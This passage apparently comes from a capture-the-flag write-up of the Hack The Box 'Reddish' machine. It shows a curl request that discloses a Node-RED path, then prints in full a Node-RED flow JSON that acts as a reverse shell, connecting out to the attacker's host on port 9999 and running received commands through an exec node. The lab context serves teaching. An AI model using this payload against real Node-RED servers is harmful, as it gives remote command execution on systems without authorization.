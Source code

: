 Sending a POST request to the URL http://10.10.10.94:1880 revealed sensitive information about the path of the Node-RED application.

```bash
$ curl -s -X POST http://10.10.10.94:1880/

{"id":"df46534b0bfa93473137b5a6df16ff3c","ip":"::ffff:10.10.14.26","path":"/red/{id}"} 
Accessing the disclosed URL revealed the presence of a Node-RED application.
http://10.10.10.94:1880/red/df46534b0bfa93473137b5a6df16ff3c/
```

## Exploit of Node-RED
Copy the contents of [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json).

```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]

```

On the node-red site click on the menu icon > import > clipboard.
![import clipboard](/assets/img/htb/reddish/import_clipboard.png)

Paste the contents of the [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json), then click on import.

![import nodes](/assets/img/htb/reddish/import_nodes.png)
